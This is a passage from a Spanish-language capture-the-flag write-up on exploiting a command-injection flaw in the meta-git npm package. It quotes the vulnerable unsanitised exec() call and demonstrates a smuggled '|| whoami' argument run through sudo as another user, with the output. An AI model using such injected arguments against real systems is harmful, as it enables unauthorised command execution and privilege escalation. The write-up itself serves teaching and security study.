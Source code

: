 Con la versión correcta encontramos una vulnerabilidad:

![METAGit](meta_git_vuln.png){: .shadow}

> Reporte de la vulnerabilidad [https://hackerone.com/reports/728040](https://hackerone.com/reports/728040)
{: .prompt-info}

En resumen, lo que ocurre es que al ejecutar el comando `meta-git clone <repository_name>` el input del usuario **\<repository_name\>** se asigna dentro de una cadena sin sanitizar que luego se ejecuta como un comando:

> Parte del código del problema

```javascript
//...

exec(
    {
      cmd: `git clone ${meta.projects[name]} ${name}`, <--------- Problem!
      displayDir: path.resolve(name),
    },
    next
);
//...
```

> Aquí encuentras el código completo [https://github.com/mateodelnorte/meta-git/blob/master/lib/metaGitUpdate.js#L49](https://github.com/mateodelnorte/meta-git/blob/master/lib/metaGitUpdate.js#L49)
{: .prompt-info}

Ahora solo queda explotar la vulnerabilidad. Primero tengamos en cuenta que tenemos que ejecutar `meta-git` como el usuario `developer`, para ello usamos el comando `sudo -u <user>` junto a `/usr/local/bin/meta-git clone '<user_input>'`, donde nuestro **\<user_input\>** será cualquier nombre ya que no tenemos un repositorio actual y haremos uso de el operador lógico `||` el cúal funciona como un **or** y al momento que falle la llamada al repositorio inexistente pasará a ejecutar el comando que insertemos luego:

```console
gbyolo@faculty:/$ sudo -u developer /usr/local/bin/meta-git clone 'any text || whoami'
meta git cloning into 'any text || whoami' at any text || whoami

any text || whoami:
fatal: repository 'any' does not exist
whoami: extra operand ‘any’
Try 'whoami --help' for more information.
developer  <---------------------------------------- Remote Code Execution
any text || whoami ✓
(node:38044) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/any text || whoami'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:38044) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:38044) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
```

